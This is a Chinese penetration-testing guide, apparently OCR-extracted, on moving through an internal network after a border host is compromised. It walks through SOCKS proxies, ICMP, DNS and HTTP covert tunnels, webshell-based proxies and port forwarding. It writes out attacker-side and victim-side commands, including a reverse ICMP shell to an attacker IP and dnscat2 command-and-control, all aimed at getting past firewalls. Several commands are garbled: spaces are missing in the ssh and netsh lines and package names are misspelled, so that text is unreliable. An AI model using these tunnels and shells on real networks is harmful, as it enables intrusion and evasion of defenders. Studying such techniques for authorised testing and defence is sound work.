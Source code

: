 在渗透的时候通常我们通过各种漏洞获取到某内网边界机器的权限后,我们需要进行信息收集,尽可能的摸清整个内网的网络拓扑情况,在条件有限的情况时(边界机器权限低,攻击方规则不允许远程登录,边界机器为linux)我们就需要根据不同情况搭建代理,隧道,或者端口转发环境,将我们本机的工具流量带入到内网环境,对内网环境进行漫游探测

通常会有以下四种情况

1. 内网防火墙对出口流量没有任何端口限制。
2. 内网的防火墙只配置了入站规则。
3. 内网防火墙出站入站规则都配置了。
4. 内网防火墙都配置了出入站规则并且具有协议检测和识别能力且
仅允许HTTP流量出去外网。

### 0x01 socks代理服务端篇

针对第一种情况,由于防火墙对出口流量没有任何端口限制,我们的可选择的方案非常灵活.常用的方法有
1. 正向连接,将shell转发到某个端口,或者内网主机的端口或者监听SOCKS5端口开始监听,等待外面的攻击者连接(此时,外网的任何人都可以来连接被攻击者的端口)

2. 反向连接,受害者主机通过指定攻击者正在监听的IP和port,将shell或内网端口等转发到攻击者环境,也可实现socks5反向代理。

其中可以用来做socks5代理的工具有:

1. Frp:
frp是一个高性能的反向代理应用,可以轻松地进行内网穿透,对外网提供服务,支
持tcp,http,https等协议类型。
下载地址:https://github.com/fatedier/frp/releases
推荐文章:https://www.jianshu.com/p/e0581ee84323
2. Earthworm(ew)
一套轻量便携且功能强大的网络穿透工具，基于标准C开发，具有socks5代理、端
口转发和端口映射三大功能。
下载地址:(暂不提供)
推荐文章:http://rootkiter.com/EarthWorm/
3. Ssocks
sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验
证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代
理服务端，反弹回本地，极大方便内网的渗透测试
下载地址:(http://sourceforge.net/projects/ssocks/)
推荐文章:https://blog.csdn.net/God_XiangYu/article/details/100132
929
4. msf做socks代理
推荐文章:https://www.cnblogs.com/dgjnszf/p/12114358.html
 5. CobaltStrike做socks代理
推荐文章:https://www.secshi.com/6575.htms

针对第二种情况,我们可以反向连接受害者主机,通过指定攻击者
正在监听的IP和port,将shell,内网端口等转发到攻击者因为只限制入
站流量,出站未做限制,所以做socks代理方法依然适用

### 0x02 隐蔽隧道篇

针 对 第 三 种 和 第 四 种 情 况 , 
socks代理的方法就受限制,因为端口有限,我们可以选择隐蔽隧道技术
,把内网服务器的端口通过http/https，ICMP，DNS隧道转发到本机, 
形成一个回路。用于目标服务器在内网或做了端口策略的情况下连接
目标服务器内部开放端口。它利用webshell建立一个socks代理进行
内网穿透常见的隐蔽隧道工具有以下几种。

#### 一、ICMP隧道

ICMP隧道的原理：基于IP协议，将TCP/UDP数据包封装到ICMP数据包中，绕过防火墙，实现出网。ICMP隧道的应用场景：上层协议例如HTTP协议、DNS协议和正反向端口转发都失败时，可以尝试ICMP出网。ICMP的常用工具：icmpsh、icmptunnel、ptun

1、icmpsh
工具安装
git clone https://github.com/inquisb/icmpsh.git #下载地址
apt-get install python-impacket #安装依赖
sysctl -w net.ipv4.icmp_echo_ignore_all=1 
#关闭本地的ICMP应答
被攻击者执行

icmpsh.exe -t 攻击者IP
攻击者执行
python icmpsh_m.py 攻击者IP 被攻击者IP
2、icmptunnel
工具安装
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
sysctl -w net.ipv4.icmp_echo_ignore_all=1 
#关闭本地的ICMP应答
攻击者执行
一个终端执行
 ./icmptunnel –s
另一个终端执行
 /sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0
被攻击者执行
一个终端执行
sysctl -w net.ipv4.icmp_echo_ignore_all=1 
./icmptunnel 攻击者IP
另一个终端执行
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0
 3、ptunnel
工具安装
wget
https://github.com/esrrhs/pingtunnel/releases(最新的release下载地
址)
sudo unzip pingtunnel_linux64.zip
攻击者执行
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all
sudo ./pingtunnel -type server
被攻击者执行
// client, Forward udp
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t 
SERVER_IP:4455
// client, Forward tcp
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t 
SERVER_IP:4455 -tcp 1
// client, Forward sock5, implicitly open tcp, so no target 
server is needed
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -sock5 1

二、DNS隧道
DNS隧道的原理：基于UDP协议，将TCP/UDP数据包封装到dns的
数据包中，绕过防火墙，实现出网。
DNS隧道的应用场景：上层协议例如HTTP协议、正反向端口转发都
失败时，可以尝试DNS协议出网。
DNS的常用工具：dnscat2、dns2tcp、iodine

1 、 dnscat2
工具安装
server端安装：需要ruby环境、安装gem、ruby、dnscat2服务端
yum install gem
rm /usr/bin/ruby
wget https://cache.ruby-lang.org/pub/ruby/2.5/ruby-2.5.0.tar.gz
tar -zxvf ruby-2.5.0.tar.gz
cd ruby-2.5.0
mkdir -p /usr/local/ruby
./configure --prefix=/usr/local/ruby
make && make install
ln -s /usr/local/ruby/bin/ruby /usr/bin/ruby
git clone https://github.com/iagox86/dnscat2.git
cd /server
gem install bunlder
ln /usr/local/ruby/bin/bunlder /usr/bin/bunlder
bunlder install
客户端安装：
下载地主：https://downloads.skullsecurity.org/dnscat2/
powershell客户端：https://codeload.github.com/lukebaggett/dnscat2
-powershell/zip/master
攻击者执行
ruby dnscat2.rb yourdomain.****.top -e open -c password --no￾cache
被攻击者执行
./dnscat --secret=password yourdomain.target.com
2、dns2tcp
工具安装
su - #进入root用户
apt-get install update
apt-get install dns2tcp #实际上是同时安装了dns2tcp的客户端和服务端
windows客户端：
https://pan.baidu.com/s/1w-dpn0US9SmfjqdXuHS4aA提取码: tkgd)
攻击者执行
dns2tcpd -f /etc/dns2tcpd.conf -F -d 2
被攻击者执行
./dns2tcpc.exe -r c2 -z dnsc2.test.com target_ip -l 5353 -d 2
3、iodine
工具安装
sudo apt-get install iodine
攻击者执行
sudo iodined -c -P 123pass ClientIP(客户端IP) domain.com -DDD
被攻击者执行
sudo iodine -f -P 123pass serverIP(服务器IP) domain.com -r

三、HTTP隧道工具篇
HTTP隧道的原理：基于HTTP协议，将TCP/UDP数据包封装到HTTP
的数据包中，绕过防火墙，实现出网。
HTTP隧道的应用场景：只允许HTTP协议出网，复用WEB端口。
HTTP隧道的常用工具：Reduh、Tunna、reGeorg、Weevely、AB
PTTS

1. Reduh
使用条件:
1.获取目标服务器webshell,且可以上传reDuh服务端对应脚本文件。
2.知道目标服务器开放的内网端口,如远程桌面的端口是3389。
3.目标服务器网络做了端口策略限制,只允许外部访问内网的80等特定端口。
下载链接:https://github.com/sensepost/reDuh 
参考链接:https://www.jianshu.com/p/cd3dae49385d
2. Tunna
一款神奇的工具，它可以通过HTTP封装隧道通信任何TCP，以及用于绕过防火墙环
境中的网络限制。
注：Tunna代理并不是非常稳定，经常出现掉线情况，尤其是使用Tunna代理远程
连接的流量时，经常掉线。但是使用Tunna访问内网web服务还算稳定。
下载链接:https://github.com/SECFORCE/Tunna
参考链接:https://blog.csdn.net/limb0/article/details/103856835
3. reGeorg
reGeorg是reDuh的升级版
下载链接:https://github.com/sensepost/reGeorg
参考链接:https://blog.csdn.net/qq_17204441/article/details/888340
95
4. Weevely
weevely是一款使用python编写的webshell工具，集webshell生成和连接于一
身，采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的
隐蔽性（生成随机参数且base64加密），在linux上使用时还是很给力的（集服务
器错误配置审计，后门放置，暴力破解，文件管理，资源搜索，网络代理，命令执
行，数据库操作，系统信息收集及端口扫描等功能）
下载地址:http://epinna.github.com/Weevely/
参考链接:https://www.cnblogs.com/lingerhk/p/4009073.html
5. ABPTTS
Abptts是一款基于python2.7的http加密隧道工具，Abptts能做的很多,缺点是
不支持PHP
通过http加密隧道转发至目标内网下指定的单个TCP端口
通过http加密隧道同时转发至目标内网下的多台机器上的多个tcp端口
把ssh隧道包裹在http加密隧道中传递，对目标二级内网进行穿透
下载地址:https://github.com/nccgroup/ABPTTS.git
参考链接:https://blog.csdn.net/include_heqile/article/details/850
08629

### 0x03 端口转发篇

理论上,任何接入互联网的计算机都是可访问的,但如果目标主机
在内网中,我们又想和该目标主机进行通信的话,除了做socks代理和ht
tp隧道外,我们还可以使用端口转发的方法来与目标主机进行通信。
文章开始提到的四种场景,前三种场景都是有常用的端口转发工具
的。
1. Frp
下载地址:https://github.com/fatedier/frp/releases
参考链接:http://www.secflag.com/archives/373.html
2. Msf+Portfwd
参考链接:https://blog.csdn.net/DarkHQ/article/details/80411158
3. Lcx
lcx是一款强大的内网端口转发工具,已经被杀毒软件列为木马,用于将内网主机开
放的内部端口映射到外网主机(有公网IP)任意端口. 
它是一款命令行工具，当然也可以在有权限的webshell下执行，正因如此lcx常被
认为是一款黑客入侵工具，lcx在内网入侵渗透中起着重要的角色。lcx进行端口
转发的原理就是使不同端口之间形成一个回路。它常用于外网连接内网3389等端口
。
下载地址:自行搜索引擎
参考链接:https://blog.bbskali.cn/356.html
4. Socat
下载地址:http://www.dest-unreach.org/socat/
参考链接:https://www.cnblogs.com/iamlehaha/p/6540695.html
5. SSH
#本地端口转发:
ssh-CfNg-Lport1:127.0.0.1:port2user@host
参数：-L本地网卡地址:本地端口:目标地址:目标端口
#远程端口转发：
ssh-CfNg-Rport2:127.0.0.1:port1user@hsst
参数：-R远程网卡地址:远程端口:目标地址:目标端口
#动态端口转发
ssh-Dlocalhost:2000root@103.59.22.17
参数：-D本地网卡地址:本地端口
6. Netsh
netsh是windows下提供网络管理的命令行工具，它是一个交互式的shell,涉及到
上下文的概念。我们在交互式下面进入相应的上下文，进行参数的设置。也可以直
接下面这样非交互式的进行端口转发。
`netshinterfaceipv6install
#转发
netshinterfaceportproxyaddv4tov4listenaddress=10.10.18.1listenpo
rt=4455connectaddress=10.10.12.1connectport=8080
#删除转发
netshinterfaceportproxydeletev4tov4listenaddress={B的IP}listenpo
rt={B的端口}

### 0x04 socks代理客户端

在做好socks代理以后,我们需要使用socks客户端挂上代理,才能
访 问 目 标 环 境 , 在 这 里 说 一 下 个 人 的 配 置 , 
小编工作机为mac,socks代理客户端图形化工具使用proxifier,命令行
工具使用proxychains4,另外我比较喜欢单独配置,burpsuite走代理
就在burpsuite配置,终端走代理就在终端配置代理,浏览器需要走代理
就在浏览器配置代理。
1.proxychains 需要修改mac的配置
修改配置参考链接:https://zhuanlan.zhihu.com/p/21281236
使用方法参考链接:https://www.cnblogs.com/wyet/p/7868395.html
2.proxifier 这个工具好用,跨平台使用
参考链接:http://www.hopol.cn/2018/05/1142/
3 burpsuite 挂socks代理
参考链接:https://www.cnblogs.com/hookjoy/p/10759555.html
4 chrome 挂socks代理
插件:SwitchyOmega
5 终端走代理
挂代理命令alias proxy='export all_proxy=socks5://127.0.0.1:1086

取消代理命令alias unproxy='unset all_pro